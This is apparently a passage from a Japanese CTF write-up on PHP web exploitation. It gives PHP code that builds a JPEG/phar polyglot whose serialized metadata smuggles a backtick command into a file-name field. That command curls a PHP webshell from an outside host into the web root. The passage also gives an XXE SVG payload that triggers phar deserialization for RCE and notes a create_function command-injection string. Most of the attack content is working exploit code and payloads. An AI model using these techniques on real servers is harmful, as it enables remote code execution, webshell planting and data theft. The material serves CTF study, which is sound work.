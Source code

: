 ```php
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x21\x1f\xff\xda\x00\x0c\x03\x01\x00\x02\x00\x03\x00\x00\x00\x10\x92\x4f\xff\xc4\x00\x14\x11\x01\x00".
"\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda".
"\x00\x08\x01\x02\x01\x01\x3f\x10\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x3f\x10\x1f\xff\xd9";

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->addFromString("test.txt","test");
$phar->setStub($jpeg_header_size." __HALT_COMPILER(); ?>");
$object = new Image;
$object->tmp_name = '/etc/passwd';
$object->folder = '/tmp';
$object->file_name = 'aaa`curl jbz.team/phpshell.txt > /var/www/html/images/<phpsessid>/a.php`bbb';
$object->extension = 'txt';
$phar->setMetadata($object);
$phar->stopBuffering();
```
以下のXXEで上記の`phar`ファイルを読み込ませて、メタデータをunserializeさせてPHP Object Injectionを起こしてRCEする！   
```txt
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % data SYSTEM "phar://images/<phpsessid>/<phar_file_name>.jpg">
%data;
]>
<svg viewBox="0 0 400 400" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
      <text x="60" y="15" style="fill:black">PoC for XXE file stealing via SVG rasterization</text>
      <rect x="0" y="0" rx="10" ry="10" width="400" height="400" style="fill:green;opacity:0.3"/>
      <flowRoot font-size="15">
         <flowRegion>
           <rect x="10" y="20" width="380" height="370" style="fill:yellow;opacity:0.3"/>
         </flowRegion>
         <flowDiv>
            <flowPara></flowPara>
         </flowDiv>
      </flowRoot>
</svg>
```
## (OOB) XXE (SSRF to localhost / Command Injection)
https://graneed.hatenablog.com/entry/2019/01/28/023500   
- **entrypoint**   
ソースコードが与えられて`Admin::sort($_REQUEST['rss'],$_REQUEST['order'])`にRCEの脆弱性があることがわかるが、ローカルからしかアクセスできないように制限されている。なので、XXEを使ってSSRFによってリクエストを送信してRCEする。幸い、`simplexml_load_string`に入力が入っているのでXXEに対して脆弱。   
応答が返ってこないが今回はSSRFをするだけでよくて、コンテンツを攻撃者サーバーに送り付ける必要がないため、SSRFでよい。   
- **概要**   
以下がXXEに脆弱な箇所。   
```php
class Custom extends Controller{
  public static function Test($string){
      $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
      $test = $root->name;
      echo $test;
  }
```
以下の`usort`の部分が、第1引数に配列、第二引数にコールバック関数を指定しており、後者は`create_function`によって無名関数が文字列`''`で囲まれて宣言されている。ここに`aa||system('id')`を挿入可能なのでCommand Injection可能。   
```php
class Admin extends Controller{
  public static function sort($url,$order){
    $uri = parse_url($url);
```